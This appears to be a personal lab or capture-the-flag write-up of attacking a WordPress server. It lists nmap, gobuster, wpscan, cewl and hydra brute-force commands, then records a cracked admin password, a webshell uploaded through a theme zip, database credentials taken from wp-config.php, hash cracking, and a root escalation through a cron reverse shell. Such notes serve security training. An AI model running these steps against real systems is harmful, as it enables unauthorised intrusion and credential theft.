

# Enumeration & Reconnaisance
nmap 
1. fastscan 
nmap -p- --max-retries 1 -sS -Pn -n 172.31.196.91 -oA fastscan 
2. topports
nmap --top-ports 1000 -sS -Pn -n 172.31.196.91 -oA topports 

  only http 


3. detailed
nmap -p 80 -Pn -n -sV -sC 172.31.196.91 -oA detailed 


# Vulnerabilities Assessment

## HTTP
- Apache httpd 2.4.52 2021
  wordpress 6.3.1 2023
    if there's plugin 
    and the more important thing is the wpscan > nonpatched plugins and themes 
    and also validuser enum( if you find password, --password good) 
- script
  wordpress and http or http scripts category
  I think it's just looking through, and for specific scan, use gobuster or wpscan 
  
  http-enum
    wp-login.php, readme.html, wp-admin, 
      what does 'version 2.2 found' means? 
  vuln
    user found-admin(wordpress), http-enum, sqli  : better 

  wordpress-enum
    plugins  akismet 5.2, wordpress-importer 0.8.1
  wordpress-users
    admin

### in Browser
- What do you do?
  ransom blogs news and publish leaked data 

Wappalyzer 
  nothing interesting

crtl U and antonnation
  wp ofcourse 
  or other pages get 
    link feel or comments/feed - it's sml type, for rss
  what is skip-link target's ID? is it malicious?

  user name gather?
   lapsoos  TechNego admin

  how about put URL and trigger click from them , like stored XSS 

robots.txt 
  X


- dir brute forcing - gobuster 

fastscan
  gobuster dir -u http://172.31.222.211/ -w /usr/share/dirb/wordlists/common.txt -t 20 -o fastscan_root -f
    wp-admin, xmlrpc , `wp-includes`, ...
      I think wp-includes = default wp setting, so that means admin didn't touch this dir

  with file
  gobuster dir -u http://172.31.222.211/ -w /usr/share/dirb/wordlists/common.txt -t 20 -x php,html,txt -o extension
    wp-login, wordpress, ...


  later
  `bak,bac,zip,back,backup,docs,xlxs`,


  gobuster dir -u http://172.31.222.211/index.php -w /usr/share/dirb/wordlists/common.txt -t 20 -o fastscan_index -f
    /0 , atom, `cgi-bin`, ... - different results

  gobuster dir -u http://172.31.222.211/index.php -w /usr/share/dirb/wordlists/common.txt -t 20 -x php,html,txt -o extension_index -f


>> deep dive
readme.html 
  when do I use? 

/wordpress/
  setup config, if I have DBname,creds,host, I can replace and reset the wp-config.php(it's known for DB critical data there)
    so that means there's a DB server running on another port? or just can I reset the creds?   
    no I need correct creds and hostname 
/wp-includes/
  I think it's about theme, or widget or sort of things , and it's default setting
    is there useful info? skip for now
/wp-admin/
  login page > is it default creds?
  root:root, root:password admin:admin admin:password
    I can know admin exists on their DB and get valid users - brute forcing hydra
      hydra -L validusers.txt -p "ransom" 172.31.222.211 -s 80 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=instead" -V 
        no I need to find specific one

      hydra -l admin -P /usr/share/wordlists/rockyou.txt 172.31.222.211 -s 80 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=incorrect" -V 
        no I think it's unusual
      

    run wpscan at the same time. 

  hydra or wpscan > valid userlist, and brute forcing 
  
  
  `SQLi`
  
xmlrpc.php
  this is used for file upload, if I know the creds, but if so, I could use in person, it's just like transit service


wp-signup.php
  can register? no


#### /index.php/
/0, /embed, /wp-admin - same size, same results no need to run recursively

/rdf.rdf - http://172.31.226.117:8000 = interner blod dev? no ... just trash 


detailed
  gobuster dir -u http://172.31.222.211/ -w /usr/share/dirbuster/wordlists/small -t 20 -o detailed_root -f

  gobuster dir -u http://172.31.222.211/index.php/ -w /usr/share/dirbuster/wordlists/small -t 20 -o detailed_index -f 
    I stopped at 14000

and pattern for date loop 
  gobuster fuzz -u http://172.31.222.211/index.php/FUZZ -w dateloop.txt -t 20 -o dateloop --excludestatuscodes 404 --exclude-length 0 
    nothing September only 

```
ref : simple loop in bash script.sh 
```

  but of course I have to run one more time at the end

#### wpscan
it finds version if you can't find
  vaild username
  and if you know password,  
  vuln plugin/theme 

wpscan --url --passwords randompwd.txt
  it's better to put the random passwords file
    admin found

uploaded file
http://172.31.222.211/wp-content/uploads/
  but it's not set with directory traversal 
  png,
  upload enabled

wp-cron enabled 

theme : twentytwentytwo 1.7 

wpscan enumerate another options such as config backups 
or userlist txt  online


#### `OWASP` 10 

XSS
  stored - whitelist or secure coded 
  but I found the search box 
    no

SQLi
  search box
    % no 


#### cewl
I need creds > making password lists with blog article's words. yeah possible way.

I have user : admin, but it's way better to put the words lists to passwords because it's not like a actual users
```
cewl -d 2 -m 5 -w words.cewl http://172.31.168.90
:depth 2 default (2) 
minimum word length 5

cewl -w words.cewl http://172.31.168.90

```

hydra -l admin -P words.txt http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=incorrect" -s 80 -V -f
  - -f exit when pair is found 
  - admin:corporations


# Exploitation & Initial access

### in wordpress admin dashboard
- I'm gonna look for the plugin, theme vulns
  - and then find the file upload
    - image upload - impossible it's a real server
    - add theme with zip upload
      - http://172.31.168.90/wp-content/uploads/
        - http://172.31.168.90/wp-content/uploads/2024/07/
        - webshell > not in docker(that menas I have another user in /home, and I can escalate privilege with this host www-data(e.g. I have the python and fully tty), it means there was one host=server at the first page, and I got) and can read php source code
          - wp-config.php
          - it's way better to tar zip all dir, and see on the kali host
            - tar -cf html.tar * > URL/html.tar 
              - DB creds
                - DBname: wordpress
                - wordpressuser:P@ssword
                - but how can I access into DB? I think mysql's running on localhost not open to public. it makes sense. > just go. you're in host.
                - mysql -u wordpressuser -p -h 172.31.168.90
                  - mysql -u wordpressuser -p -h localhost : accessed

    - plugin theme edit php

- with wpscan
  - wpscan --url http://172.31.168.90/wp-admin/ --passwords corporations
  - nothing further if you get into it.


# Post-Exploitation & Privilege Escalation

#### after I got mysql
admin: $P$BG2Q/Ah4CsisXc8CX0XkZ7A9hy4RuI/
same password right? 
  john --wordlist=password.txt admin.hash
  right


I'm not in root user in mysql
  - information_schema : I can know the table, column name with this database when I don't know
    - user_privileges, attributes : me alone ? 
  -  performance_schema : maybe I can get root user's hash, but I don't have access, 
    - GRANT ALL PRIVILEGES ON database_name.* TO 'wordpressuser'@'localhost';


SSH?  root 
  check if it's running locally first 
  no ssh 
    no even `ssh -p 33060` not working   
      I need to exploit locally rather than creds 


blogadmin
ubuntu(user)
how can I go to ? without ssh?
and should I go necessarily?
bruteforcing ? 

crontab -l : nothing for this user only.
  need to check system's all user

ls -lah /etc/cron* : /etc/crontab check 
cat /etc/crontab : system-wide 
  nonexistent.py < revshell




### remind & review
1. wpscan or nmap script or in blogs posts 
  > admin user found
  and wp-login admin valid user
2. but there's no users and interesting creds
  cewl > making wordlists in blog articles
    hydra http brute forcing
      admin:corporation got
        admin page > I need file upload exploit > plugin zip upload 
          www-data shell got
3. not in docker, so I try to escalaate privilege to root or another user. 
  ignore another users, these were useless
    just focus on host post-exploitation 
      wp-config.php > mysql creds got 
        mysql -h localhost connect > but it's not granted and I already know the admin's password. MD5(wordpress) crackable
          /etc/crontab 
            > got root 
               